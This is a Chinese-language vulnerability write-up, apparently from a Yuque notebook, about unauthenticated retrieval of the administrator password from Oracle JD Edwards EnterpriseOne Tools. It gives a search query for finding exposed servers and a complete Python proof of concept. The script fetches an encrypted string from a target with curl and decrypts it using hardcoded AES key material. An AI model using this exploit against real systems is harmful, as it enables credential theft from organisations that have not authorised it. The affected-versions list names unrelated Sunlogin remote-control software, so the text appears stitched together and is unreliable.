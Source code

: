 # Oracle JDEdwards EnterpriseOne Tools存在未授权获取管理员密码漏洞

## 一、漏洞描述
Oracle JDEdwards EnterpriseOne Tools存在未授权获取管理员密码漏洞

## 二、影响版本
+ 向日葵个人版 for Windows <=11.0.0.33162版本
+ 向日葵简约版 <= V1.0.1.43315（2021.12）

## 三、漏洞测绘
```java
port:8999 product:"Oracle WebLogic Server"
```

![1724335620619-317416d9-24aa-4545-bad4-a3067a469dc3.png](./img/ijf-qz3AGTo6YYJz/1724335620619-317416d9-24aa-4545-bad4-a3067a469dc3-184659.png)

## 四、漏洞复现
![1724335643682-e9e0b518-1460-4da8-8273-2df3d3a1a767.png](./img/ijf-qz3AGTo6YYJz/1724335643682-e9e0b518-1460-4da8-8273-2df3d3a1a767-754624.png)

使用下面解密脚本解密

```java
python3 poc.py --string ACHCJKFKHCJKKKJJIBBOCDPIHOEJIICHDGHGJEBABEAG
```

![1724335765028-42f80ff5-85e2-4f31-a6f9-70dfbbb2151c.png](./img/ijf-qz3AGTo6YYJz/1724335765028-42f80ff5-85e2-4f31-a6f9-70dfbbb2151c-572268.png)

```java
import base64
import argparse
import subprocess
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def main():
    # Display ASCII art
    print("""
       ______   ______    ___  ___  ___  ___      ___ ________ ____
      / ___/ | / / __/___|_  |/ _ \|_  |/ _ \____|_  /_  /_  /|_  /
     / /__ | |/ / _//___/ __// // / __// // /___/ __/ / //_ <_/_ < 
     \___/ |___/___/   /____/\___/____/\___/   /____//_/____/____/ 
    """)

    # Parse command-line arguments
    parser = argparse.ArgumentParser(description='Decrypt a given string.')
    parser.add_argument('--string', help='The string to be decrypted')
    parser.add_argument('--target', help='The target URL to fetch the string from')
    args = parser.parse_args()

    if args.target:
        # Fetch the response from the target URL
        response = fetch_target_string_with_curl(args.target)
        if response:
            input_str = response
            print(f"Fetched string from target: {input_str}")
        else:
            print("No valid string found in the response.")
            return
    elif args.string:
        input_str = args.string
    else:
        print("You must provide either --string or --target.")
        return

    # Decrypt the string
    array_of_bytes = jde_decipher(input_str.encode("UTF-8"))
    print("Decrypted string:", array_of_bytes.decode("UTF-8"))

def fetch_target_string_with_curl(target_url):
    try:
        # Use curl to fetch the target URL with SSL verification disabled
        result = subprocess.run(['curl', '-k', target_url], capture_output=True, text=True)
        if result.returncode == 0:
            response_text = result.stdout.strip()
            print("Response received:")
            print(response_text)  # Print for debugging
            return response_text
        else:
            print(f"curl failed with return code {result.returncode}")
            return None
    except Exception as e:
        print(f"Failed to fetch from target using curl: {e}")
        return None

def jde_decipher(param_array_of_bytes):
    array_of_bytes_1 = show_buffer(param_array_of_bytes)
    array_of_bytes_2 = base64.b64decode(array_of_bytes_1)
    return array_of_bytes_2

def show_buffer(param_array_of_bytes):
    array_of_bytes_1 = bytearray(len(param_array_of_bytes) // 2)
    for j in range(len(array_of_bytes_1)):
        i = 2 * j
        array_of_bytes_1[j] = ((param_array_of_bytes[i] - 65) << 4) + (param_array_of_bytes[i + 1] - 65)

    if array_of_bytes_1[0] != 2:
        raise Exception("Invalid version for net showBuffer")

    array_of_bytes_2 = bytearray(16)
    array_of_bytes_3 = bytearray(16)
    gen_keys(array_of_bytes_2, array_of_bytes_3, array_of_bytes_1[3])

    cipher = AES.new(array_of_bytes_2, AES.MODE_CBC, iv=array_of_bytes_3)
    array_of_bytes_4 = unpad(cipher.decrypt(bytes(array_of_bytes_1[6:])), AES.block_size)

    return array_of_bytes_4

def gen_keys(param_array_of_bytes_1, param_array_of_bytes_2, param_byte):
    array_of_bytes_1 = bytearray([65, 4, 95, 12, 88, 41, 6, 114, 119, 93, 37, 68, 75, 19, 49, 46])
    array_of_bytes_2 = bytearray([107, 34, 26, 94, 68, 41, 119, 48, 3, 88, 28, 97, 5, 127, 77, 54])
    array_of_bytes_3 = bytearray([36, 89, 113, 109, 38, 15, 7, 66, 76, 115, 16, 53, 106, 94, 27, 56])

    j = param_byte >> 4
    k = param_byte & 0xF
    m = array_of_bytes_3[j]
    for i in range(16):
        param_array_of_bytes_1[i] = array_of_bytes_1[i] ^ m

    m = array_of_bytes_3[k]
    for i in range(16):
        param_array_of_bytes_2[i] = array_of_bytes_2[i] ^ m

if __name__ == "__main__":
    main()
```



> 更新: 2024-09-05 23:27:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pmvkhnz91qoo3axw>